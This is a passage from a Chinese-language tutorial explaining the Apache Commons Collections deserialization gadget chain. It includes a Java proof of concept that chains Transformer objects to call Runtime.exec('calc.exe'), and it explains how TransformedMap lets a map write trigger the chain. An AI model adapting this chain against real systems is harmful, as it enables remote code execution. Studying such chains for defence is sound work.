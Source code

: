 

###### ChainedTransformer

传入Transformer数组初始化对象；transform方法依次调用Transformer实现类的transform方法处理传入对象，也就是transform方法的组合拳利用

上边的三个类连起来形成一条链的话就是：

```java
package com.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Demo03 {
    public static void main(String[] args) {
        String cmd = "calc.exe";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}//获取到了getRuntime方法
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}//用invoke方法传递参数
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{cmd})
        };
        // 创建ChainedTransformer调⽤链对象
        Transformer transformedChain = new ChainedTransformer(transformers);
        // 执⾏对象转换操作
        transformedChain.transform(null);
    }
}
```

1） ConstantTransformer把传入对象转换为常量，并返回得到该对象（Runtime.class）

2）InvokerTransformer通过反射获取传入对象的方法，并且加入参数

3）ChainedTransformer执行链式的Transformer方法，将反射包含的数组进行链式调用，从而连贯起来

4）然后查找哪个对象能够接收ChainedTransformer方法



###### TransformedMap

这个类就是为了上一个方法的第四步

上一个方法的第四步之后我们得到的是ChainedTransformer，一个转换链，TransformedMap类提供将map和转换链绑定的构造函数，只需要将数据添加到map中就可以调用这个转换链执行payload。

这样我们就可以把触发条件从显性的调用转换链的transform函数延伸到修改map的值，后者是一个常规操作，相比前者更容易触发。
